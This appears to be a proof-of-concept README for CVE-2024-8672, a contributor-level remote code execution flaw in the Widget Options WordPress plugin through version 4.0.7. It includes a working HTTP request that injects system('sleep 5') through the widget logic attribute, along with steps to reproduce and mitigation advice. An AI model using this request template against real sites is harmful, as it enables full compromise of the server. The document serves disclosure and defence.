

# CVE-2024-8672: Authenticated Contributor Remote Code Execution in Widget Options Plugin

## Description

The **Widget Options** WordPress plugin (version 4.0.7 and earlier) is vulnerable to **Authenticated Contributor Remote Code Execution (RCE)**. This vulnerability allows authenticated users with **Contributor** privileges or higher to execute arbitrary PHP code on the server. 

The issue arises from the use of the `widgetopts_safe_eval()` function, which directly evaluates user-supplied input within the `logic` feature of widgets. This improper handling enables attackers to inject and execute malicious PHP code.

## Vulnerability Details

- **Plugin:** Widget Options
- **Version:** 4.0.7 and earlier
- **Vulnerability Type:** Authenticated Remote Code Execution (RCE)
- **CVE:** [CVE-2024-8672](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/widget-options/widget-options-the-1-wordpress-widget-block-control-plugin-407-authenticated-contributor-remote-code-execution)
- **Exploitation Requirements:**
  - Valid credentials with **Contributor** or higher privileges.

## Proof of Concept (PoC)

The following example demonstrates how to exploit the vulnerability to execute the `sleep` command, causing a delay in the server's response.

### Request Example

```http
GET /wp-json/wp/v2/block-renderer/core/latest-comments?context=edit&attributes[commentsToShow]=5&attributes[displayAvatar]=true&attributes[displayDate]=true&attributes[displayExcerpt]=true&attributes[extended_widget_opts][class][logic]=system('sleep 5');&post_id=91&_locale=site HTTP/1.1
Host: localhost:5555
X-WP-Nonce: 365b68356c
Cookie: wordpress_logged_in_fake_cookie=invalid|123456789|fake_cookie
```

### Steps to Reproduce

1. Authenticate to WordPress with a Contributor account.
2. Obtain a valid **nonce** for API requests (e.g., using the browser DevTools while editing a post).
3. Send the crafted request to inject and execute the PHP logic.

## Impact

- Exploiting this vulnerability allows authenticated users to execute arbitrary PHP commands, leading to a full compromise of the WordPress site and its hosting server.

## Mitigation

To mitigate this issue:
- Update the **Widget Options** plugin to the patched version 4.0.8.
- Restrict access to Contributor accounts and review permissions.
- Use a Web Application Firewall (WAF) to block malicious requests. 

## Proof of Execution

The following screenshot demonstrates the execution of the `sleep` command via the provided PoC, showing the delayed response time.

